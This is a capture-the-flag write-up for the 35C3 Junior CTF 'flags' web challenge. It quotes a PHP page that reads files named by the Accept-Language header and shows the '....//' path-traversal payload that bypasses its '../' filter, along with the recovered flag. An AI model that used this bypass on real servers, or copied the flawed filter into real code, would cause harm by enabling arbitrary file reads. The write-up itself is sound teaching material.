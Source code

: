 # 35C3 Junior CTF – flags

* **Category:** Web
* **Points:** 37 (variable)

## Challenge

> Fun with flags: http://35.207.169.47
>
> Flag is at /flag
>
> Difficulty estimate: Easy

## Solution

The page shows the PHP snippet of which is composed and an image.

The PHP code is the following.

```PHP
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';
```

The web site extracts the language passed via HTTP header, considers the first language and tries to load a picture from the `flags` folder; that picture will be displayed.

Even if the `str_replace('../', '', $lang)` instruction is used, the path traversal vulnerability is still present and can be abused using `....//` instead of `../`.

After some attempts, you will discover the correct HTTP header to use.

```
Accept-Language: ....//....//....//....//flag
```

The returned "image" will be the following.

```HTML
<img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">
```

Decoding the Base64 will give you the flag.

```
35c3_this_flag_is_the_be5t_fl4g
```